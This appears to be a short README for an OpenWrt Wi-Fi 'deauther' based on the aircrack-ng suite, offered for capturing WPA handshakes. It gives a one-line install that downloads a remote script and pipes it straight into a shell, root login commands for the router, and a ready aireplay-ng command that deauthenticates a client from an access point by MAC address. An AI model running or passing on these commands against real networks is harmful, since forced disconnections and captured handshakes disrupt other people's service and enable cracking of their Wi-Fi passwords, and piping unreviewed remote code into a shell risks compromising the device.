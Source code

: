 # openwrt deauther based on airplay-ng
- Functions similar on kali
- Also it can capture WPA Handshakes
- Export handshake or any files from openwrt and download from the browser through
```sh
python -m http.server -b localhost
```
-  👉 [http://localhost:8000](http://localhost:8000)

## Root access 
```sh
ssh root@192.168.1.1
```
```sh
telnet 192.168.1.1
```

## Auto install 
```sh

opkg update && opkg install curl && curl https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/install.sh | sh
````
## sample commands
> More info
 - aireplay-ng --help
 - airodump-ng --help
 - aircrack-ng --help

`
aireplay-ng mon0 --deauth 20 -a 32:AA:E4:18:90:45 -c CC:73:14:5D:59:FF --ignore-negative-one
`
